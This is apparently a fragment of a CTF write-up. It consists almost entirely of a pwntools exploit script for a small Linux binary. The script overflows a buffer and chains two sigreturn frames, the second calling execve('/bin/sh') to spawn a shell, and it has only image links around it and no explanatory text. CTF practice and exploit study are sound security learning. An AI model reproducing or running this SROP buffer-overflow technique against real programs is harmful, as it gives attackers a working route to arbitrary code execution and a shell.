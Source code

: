 ```bash
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

syscall_ret=0x0000000000401033
pop_syscall=0x0000000000401032
buf=0x0000000000402000

#fake stack
sigFrame=SigreturnFrame()
sigFrame.rax=0
sigFrame.rdi=0
sigFrame.rbp=buf+0x20
sigFrame.rsi=buf
sigFrame.rdx=0x1000
sigFrame.rip=syscall_ret

ru('?')
pl=b'a'*0x88+p64(pop_syscall)+p64(15)+bytes(sigFrame)
sl(pl)
gdb.attach(p)
pause()

#getshell
sigFrame=SigreturnFrame()
sigFrame.rax=59
sigFrame.rdi=buf
sigFrame.rsi=0
sigFrame.rdx=0
sigFrame.rip=syscall_ret

pl2=b'/bin/sh\00'
pl2=pl2.ljust(0x28,b'A')
pl2 += p64(pop_syscall)+p64(15)+bytes(sigFrame)
sl(pl2)
p.interactive()
```

[![](assets/1701612132-8e6937ba04856bcba65420e3488efb33.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001643-74e8618c-3d19-1.png)
